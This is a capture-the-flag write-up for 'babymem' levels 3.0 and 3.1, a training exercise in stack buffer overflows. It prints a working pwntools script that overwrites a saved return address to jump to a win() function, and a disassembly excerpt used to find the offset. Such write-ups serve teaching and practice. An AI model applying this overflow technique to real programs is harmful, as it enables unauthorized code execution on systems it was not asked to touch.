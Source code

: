 # 3. Level3.0:
> In this level, there is no "win" variable.
> You will need to force the program to execute the win() function
> by directly overflowing into the stored return address back to main.


-It is clear that you need at least 152 bytes to overwrite the return address.
-Therefore you must find the address of win function. One of the methods is to use debug and other is to use command `nm /challenge/babymem_level3.0`

command nm:

    00000000004019fa T win
    
gdb:    
    
    (gdb) x win
    0x4019fa <win>: 0xfa1e0ff3
My script:
```
from pwn import *
r = process('/challenge/babymem_level3.0')
r.recvuntil(b'Payload size: ')
r.sendline(b'160')
r.recvuntil(b'Send your payload (up to 160 bytes)!')
r.sendline(b'A'*152 + p64(0x4019fa))
r.interactive()
```
# 3.1. Level 3.1:

-In this level, you must to debug program.
- Disas challenge, important segment:

```
   0x00000000004017f4 <+178>:   lea    rax,[rbp-0x88]
   0x00000000004017fb <+185>:   mov    rsi,rax
   0x00000000004017fe <+188>:   lea    rdi,[rip+0x916]        # 0x40211b
   0x0000000000401805 <+195>:   mov    eax,0x0
   0x000000000040180a <+200>:   call   0x4011a0 <__isoc99_scanf@plt>
   0x000000000040180f <+205>:   mov    rax,QWORD PTR [rbp-0x88]
   0x0000000000401816 <+212>:   mov    rsi,rax
   0x0000000000401819 <+215>:   lea    rdi,[rip+0x900]        # 0x402120
   0x0000000000401820 <+222>:   mov    eax,0x0
   0x0000000000401825 <+227>:   call   0x401140 <printf@plt>
   0x000000000040182a <+232>:   mov    rdx,QWORD PTR [rbp-0x88]
   0x0000000000401831 <+239>:   mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000401835 <+243>:   mov    rsi,rax
   0x0000000000401838 <+246>:   mov    edi,0x0
   0x000000000040183d <+251>:   call   0x401170 <read@plt>
   0x0000000000401842 <+256>:   mov    DWORD PTR [rbp-0xc],eax
   0x0000000000401845 <+259>:   cmp    DWORD PTR [rbp-0xc],0x0
   0x0000000000401849 <+263>:   jns    0x401877 <challenge+309>
   0x000000000040184b <+265>:   call   0x401110 <__errno_location@plt>
   0x0000000000401850 <+270>:   mov    eax,DWORD PTR [rax]
   0x0000000000401852 <+272>:   mov    edi,eax
   0x0000000000401854 <+274>:   call   0x4011c0 <strerror@plt>
   0x0000000000401859 <+279>:   mov    rsi,rax
   0x000000000040185c <+282>:   lea    rdi,[rip+0x8e5]        # 0x402148
   0x0000000000401863 <+289>:   mov    eax,0x0
   0x0000000000401868 <+294>:   call   0x401140 <printf@plt>
   0x000000000040186d <+299>:   mov    edi,0x1
   0x0000000000401872 <+304>:   call   0x4011b0 <exit@plt>
   0x0000000000401877 <+309>:   lea    rdi,[rip+0x8ee]        # 0x40216c
   0x000000000040187e <+316>:   call   0x401120 <puts@plt>
   0x0000000000401883 <+321>:   mov    eax,0x0
```